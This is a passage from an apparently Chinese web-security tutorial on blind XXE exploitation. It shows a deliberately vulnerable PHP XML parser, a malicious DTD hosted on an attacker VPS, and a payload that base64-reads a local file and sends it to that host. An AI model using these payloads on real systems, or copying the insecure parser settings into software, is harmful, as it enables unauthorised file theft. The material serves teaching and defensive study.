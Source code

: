 ```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```

②本地任意文件读取（无回显） 

在正常的环境中，使用 XXE 读取文件的时候，是没有回显的，这个时候呢可以把数据外带出来。除了发 起请求以外，还得把我们的数据传出去，而且我们本身的数据也是一个对外的请求；所以就要对外请求 两次，一次请求获取我们的数据，另外一次请求传送出我们的数据。使用参数实体进行实体引用了。

**XXE\_1.php**

```
<?php
libxml\_disable\_entity\_loader (false);
$xmlfile = file\_get\_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML\_NOENT | LIBXML\_DTDLOAD);
?>
```

在 VPS 上创建一个 test.dtd

```
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://vps的ip:端口/%file;'>">
%all;
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnviafbJWghyGqib2IR0TjyvZYEibVXQ2ALLJLGkN11LzkhdhffdmA6bFNPQ/640?wx_fmt=png)

然后在 VPS 上开启 http 服务，端口为 test.dtd 中的端口。payload：

```
<!DOCTYPE message \[
  <!ENTITY % remote SYSTEM "http://VPS的http服务/test.dtd">
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-
encode/resource=file:///C:/test.txt">
  %remote;
  %int;
  %send;
\]>
```

这里用到 base64 编码，是因为避免读取数据时候，遇到空格无法读出

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnvqmn5U3C8PGxmdO8cFdvZicAQG8YgibMU6cccfldZP6ib13XktKhibHEqvQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnvCRDYqy0wYtkicHG1ibw9u0KbK7VIacABOjYKib8kUYCDCjhl9iaWIkpB7g/640?wx_fmt=png)

解密：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnvyddxy5RvkW6Jwvbsiceyl31dIdqUia0ktoPib2e5JGDKI1rAhofQYzOcQ/640?wx_fmt=png)

被攻击者：  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbEzHMsZj9FJDtjy5TeNsnvU5WSSHH8ClocMSY86uyQibhzNolMBBJ4zN5yiaeU6PvVHdL1l5W12GIg/640?wx_fmt=png)

